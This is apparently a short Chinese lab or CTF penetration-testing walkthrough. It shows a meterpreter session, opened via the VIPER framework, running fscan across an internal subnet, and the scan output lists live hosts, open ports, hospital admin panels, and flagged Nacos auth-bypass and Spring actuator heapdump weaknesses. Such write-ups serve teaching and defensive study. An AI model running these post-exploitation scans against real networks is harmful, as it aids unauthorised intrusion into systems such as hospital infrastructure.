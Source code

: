 上线 VIPER

[![](assets/1706771111-1bf6c49ccc7643cd4d722bfb72b75a07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173508-b0e40aa0-be89-1.png)

## 信息搜集

上传 Fscan 进行内网网段扫描

```plain
meterpreter > shell -c './fscan -h 172.30.12.5/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.30.12.6     is alive
(icmp) Target 172.30.12.5     is alive
(icmp) Target 172.30.12.236   is alive
[*] Icmp alive hosts len is: 3
172.30.12.236:22 open
172.30.12.5:22 open
172.30.12.236:8080 open
172.30.12.5:8080 open
172.30.12.6:445 open
172.30.12.6:139 open
172.30.12.6:135 open
172.30.12.6:8848 open
172.30.12.236:8009 open
[*] alive ports len is: 9
start vulscan
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02            
[*] NetInfo 
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] WebTitle http://172.30.12.5:8080   code:302 len:0      title:None 跳转 url: http://172.30.12.5:8080/login;jsessionid=A60E466BB515111EA9813AD488333B5B
[*] WebTitle http://172.30.12.5:8080/login;jsessionid=A60E466BB515111EA9813AD488333B5B code:200 len:2005   title:医疗管理后台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass 
[+] PocScan http://172.30.12.5:8080 poc-yaml-spring-actuator-heapdump-file
```
